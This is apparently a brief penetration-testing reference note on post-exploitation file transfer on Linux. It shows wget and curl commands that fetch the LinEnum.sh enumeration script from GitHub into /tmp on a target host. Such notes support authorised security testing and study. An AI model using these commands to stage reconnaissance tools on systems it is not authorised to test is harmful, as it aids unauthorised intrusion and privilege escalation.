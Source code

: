 ```yaml
---
tags:
  - Post-Exploitation
  - DataTransfer
  - Linux
---
```



#### Download a File Using [[wGet]]

```shell-session
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

#### Download a File Using [[cURL]]

```shell-session
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
